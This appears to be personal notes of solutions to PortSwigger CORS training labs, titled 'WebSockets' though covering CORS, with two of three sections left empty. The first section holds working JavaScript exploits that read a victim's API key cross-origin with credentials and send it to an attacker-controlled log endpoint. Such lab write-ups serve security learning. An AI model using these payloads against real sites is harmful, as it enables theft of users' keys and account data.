 <!-- omit in toc -->
# WebSockets

<!-- omit in toc -->
## Table of Contents

- [CORS vulnerability with basic origin reflection](#cors-vulnerability-with-basic-origin-reflection)
- [CORS vulnerability with trusted null origin](#cors-vulnerability-with-trusted-null-origin)
- [CORS vulnerability with trusted insecure protocols](#cors-vulnerability-with-trusted-insecure-protocols)

## CORS vulnerability with basic origin reflection
Reference: https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack

<!-- omit in toc -->
### Quick Solution
An exploit can be crafted and delivered to the victim to get the ``apikey``. The solution uses the old ``XMLHttpRequest``. I used the ``fetch`` with the ``credentials: include`` header. Here is the full exploit:
```
<script>
const exploit = async () => {
    const labBaseUrl = <base_lab_url>;
    const details = '/accountDetails';
    const response = await fetch(`${labBaseUrl}${details}`, {credentials: 'include'});
    const data = await response.json();
    fetch(`/hacked?apikey=${data.apikey}`)
}

exploit()
</script>
```

<!-- omit in toc -->
### Solution
1. With your browser proxying through Burp Suite, check intercept is off then log in and access your account page.
2. Review the history and observe that your key is retrieved via an AJAX request to ``/accountDetails``, and the response contains the ``Access-Control-Allow-Credentials`` header suggesting that it may support CORS.
3. Send the request to Burp Repeater, and resubmit it with the added header: ``Origin: https://example.com``
4. Observe that the origin is reflected in the ``Access-Control-Allow-Origin`` header.
5. In your browser, go to the exploit server and enter the following HTML, replacing ``$url`` with your unique lab URL:
```
<script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','$url/accountDetails',true);
   req.withCredentials = true;
   req.send();

   function reqListener() {
       location='/log?key='+this.responseText;
   };
</script>
```
6. Click "View exploit". Observe that the exploit works - you have landed on the log page and your API key is in the URL.
7. Go back to the exploit server and click "Deliver exploit to victim".
8. Click "Access log", retrieve and submit the victim's API key to complete the lab.

## CORS vulnerability with trusted null origin
Reference: https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack

<!-- omit in toc -->
### Quick Solution

<!-- omit in toc -->
### Solution

## CORS vulnerability with trusted insecure protocols
Reference: https://portswigger.net/web-security/cors/lab-breaking-https-attack

<!-- omit in toc -->
### Quick Solution

<!-- omit in toc -->
### Solution